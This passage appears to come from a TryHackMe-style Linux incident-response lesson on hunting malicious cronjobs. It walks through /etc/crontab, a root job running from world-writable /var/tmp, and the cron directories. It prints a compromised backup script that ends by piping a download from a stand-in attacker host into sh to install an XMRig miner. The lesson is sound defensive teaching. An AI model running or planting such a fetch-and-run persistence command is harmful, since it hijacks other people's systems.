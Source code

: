 We can begin our investigation into cronjobs on the system by first taking inventory of the system's cron configuration files. Fortunately, this process is relatively straightforward as these files are typically stored in known locations.

**/etc/crontab**

Firstly, let's focus on `/etc/crontab`, the main repository for system-wide cronjobs. Administrators can configure tasks that require elevated privileges within this file, often executing commands as the root user. To view this file, we can `cat` its contents:

Viewing /etc/crontab

```shell-session
investigator@tryhackme:~$ cat /etc/crontab
...
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
...
*/5 * * * * root /var/tmp/backup
```

The above contents of `/etc/crontab` show the default shell and path variables used to execute commands. Below that, we can see a single cronjob entry:

`*/5 * * * * root /var/tmp/backup`

By reading the syntax above, we can determine that the `/var/tmp/backup` file will execute every five minutes as root. The `*/5` is a way within cron's syntax to specify every fifth minute.

This finding invokes immediate suspicion as a system-level cronjob executes a command with root privileges in the `/var/tmp` directory. This is a world-writable directory, meaning that any user can modify or replace the `backup` file that is being executed. This could be a misconfiguration that an attacker abused to escalate privileges or a persistence method created by the attacker after gaining root access to the system.

When viewing the contents of this `backup` file, we can determine suspicious additions to the script:

Viewing the Contents of /var/tmp/backup

```shell-session
investigator@tryhackme:~$ cat /var/tmp/backup
#!/bin/bash

tar -czf web_backup.tar.gz /var/www/html && curl -sSL http://h4x0rcr7pt.thm/install-xmrig.sh | sh
```

Although the backup script initially appears to perform a legitimate backup operation, an additional command has been appended to download and execute an install script via `curl`. From the name of the script, it appears to be related to the XMRig cryptocurrency mining software and warrants further investigation. This example illustrates a common tactic attackers use to leverage compromised systems for unauthorised cryptocurrency mining.

Next, additional system cronjob directories are important for a thorough analysis. These directories are found under the `/etc/` directory with the following naming convention:

- **/etc/cron.hourly/** - System cronjobs that run once per hour.
- **/etc/cron.daily/** - System cronjobs that run once per day.
- **/etc/cron.weekly/** - System cronjobs that run once per week.
- **/etc/cron.monthly/** - System cronjobs that run once per month.
- **/etc/cron.d/** - Additional custom system cronjobs.
